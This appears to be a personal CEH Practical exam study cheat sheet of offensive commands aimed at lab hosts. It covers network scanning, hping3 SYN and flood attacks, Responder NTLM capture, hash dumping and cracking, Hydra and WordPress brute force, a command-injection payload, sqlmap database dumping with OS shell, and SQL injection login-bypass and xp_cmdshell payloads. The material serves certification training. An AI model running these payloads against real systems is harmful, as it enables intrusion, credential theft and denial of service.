 # MY CEH Practical Note

## Tool Ref.
nmap : https://www.stationx.net/nmap-cheat-sheet/ 
Hping DDOS: https://linuxhint.com/hping3/ 
Hydra : https://github.com/frizb/Hydra-Cheatsheet 
WindowsCommand : 
https://www.thomas-krenn.com/en/wiki/Cmd_commands_under_Windows 
https://www.lifewire.com/net-user-command-2618097 

## fileShare

- access windows smb on linux : smb://ip
- python : python -m SimpleHTTP 
- apache server :  
service apache2 start  
cd /var/www/html

## Module 01 : Cryptography 
Hash : MD5 
Encrepted Disk : VeraCrypt 
Stegnography : openStego  or  QuickStego  for picture

## Module 03 : Enumeration / Scanning

ping www.moviescope.com –f –l 1500 -> Frame size
tracert www.moviescope.com -> Determining hop count

### IP Range 
Open gui enter the range 10.10.10.0 - 255

### Nmap

nmap  -T 4 -sV -sC  -p- 10.10.10.0/24

### Metasploit :
#### Enumeration using Metasploit :

msfdb init
service postgresql start
msfconsole
msf > db_status
nmap -Pn -sS -A -oX Test 10.10.10.0/24
db_import Test
hosts -> To show all available hosts in the subnet
db_nmap -sS -A 10.10.10.16 -> To extract services of particular machine
services -> to get all available services in a subnet

####  SMB Version Enumeration using MSF
use scanner/smb/smb_version
set RHOSTS 10.10.10.8-16
set THREADS 100
run
hosts -> now exact os_flavor information has been updated

### Scanning Networks
- Port Scanning using Hping3:
hping3 --scan 1-3000 -S 10.10.10.10
--scan parameter defines the port range to scan and –S represents SYN flag.

- Pinging the target using HPing3:
hping3 -c 3 10.10.10.10
-c 3 means that we only want to send three packets to the target machine.

- UDP Packet Crafting
hping3 10.10.10.10 --udp --rand-source --data 500

- TCP SYN request
hping3 -S 10.10.10.10 -p 80 -c 5
-S will perform TCP SYN request on the target machine, -p will pass the traffic through which port is assigned, and -c is the count of the packets sent to the Target machine.

- HPing flood
hping3 10.10.10.10 --flood

### snmp-check
snmp-check #targetip

## Module 04 : Enumeration

### SNMP Enumeration (161) :
nmap –sU –p 161 10.10.10.12
nmap -sU -p 161 --script=snmp-brute 10.10.10.12

msfconsole
use auxiliary/scanner/snmp/snmp_login
set RHOSTS and exploit
use auxiliary/scanner/snmp/snmp_enum
set RHOSTS and exploit

### NetBIOS Enumeration (139) : 

nbtstat –A 10.10.10.16
net use
net use \10.10.10.16\e ““\user:””
net use \10.10.10.16\e ““/user:””
NetBIOS Enumerator

### Enum4Linux Wins Enumeration :

enum4linux -u martin -p apple -U 10.10.10.12 -> Users Enumeration
enum4linux -u martin -p apple -o 10.10.10.12 -> OS Enumeration
enum4linux -u martin -p apple -P 10.10.10.12 -> Password Policy Information
enum4linux -u martin -p apple -G 10.10.10.12 -> Groups Information
enum4linux -u martin -p apple -S 10.10.10.12 -> Share Policy Information (SMB Shares Enumeration

### Active Directory LDAP Enumeration
use ADExplorer

## Module 05 : Vulnerability Analysis 

- nikto -h http://www.goodshopping.com -Tuning 1 
- Nessus 

## Module 06 : System Hacking
### NTLM Hash crack :

- responder -I eth0 # trigger wrong smb path
- usr\share\responder\logs --> Responder log location
- john /usr/share/responder/logs/ntlm.txt

### Rainbowtable crack using Winrtgen/RainbowCrack :
WINRTGEN : Create rainbow
RainbowCrack : Use rainbow

- Open **WINRTGEN** and add new table
- Select ntlm from Hash dropdown list.
- Set Min Len as 4, Max Len as 6 and Chain Count 4000000
- Select loweralpha from Charset dropdown list (it depends upon Password).
- rcrack_gui.exe to crack hash with rainbow table

### Hash dump with Pwdump7 and crack with ohpcrack :

- wmic useraccount get name,sid --> Get user acc names and SID
- PwDump7.exe > c:\hashes.txt
- Replace boxes in hashes.txt with relevant usernames from step 1.
- Ophcrack.exe -> load -> PWDUMP File
- Tables -> Vista free -> select the table directory -> crack


## Module 08 : Sniffing


- Request Search: http.request.method == “POST” -> Wireshark filter for filtering HTTP POST request 

- Capture traffic from remote interface via wireshark
	Capture > Options > Manage Interfaces 
	Remote Interface > Add > Host &  Port (2002)
	Username & password > Start

## Module 13 : Hacking Web Servers
### FTP Bruteforce with Hydra
#### Hydra
hydra -L /root/Desktop/Wordlists/Usernames.txt -P /root/Desktop/Wordlists/Passwords.txt ftp://10.10.10.11


## Module 14 : Hacking Web Applications

Wordpress
wpscan --url http://10.10.10.12:8080/CEH --enumerate u

WP password bruteforce
msfconsole
use auxiliary/scanner/http/wordpress_login_enum

RCE 
ping 127.0.0.1 | hostname | net user


## Module 15 : SQL Injection
browser>> Console >> document.cookie # get cookie 

### SQLMAP
-  Extract DBS
sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie="xookies xxx" --dbs

- Extract Tables
sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope --tables

- Extract Columns
sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --columns

- Dump Data
sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --dump

- OS Shell to execute commands
sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie="cookies xxx" --os-shell

- Login bypass
blah' or 1=1 --

- Insert data into DB from login
blah';insert into login values ('john','apple123');

- Create database from login
blah';create database mydatabase;

- Execute cmd from login | DOS 
blah';exec master..xp_cmdshell 'ping www.moviescope.com -l 65000 -t'; --


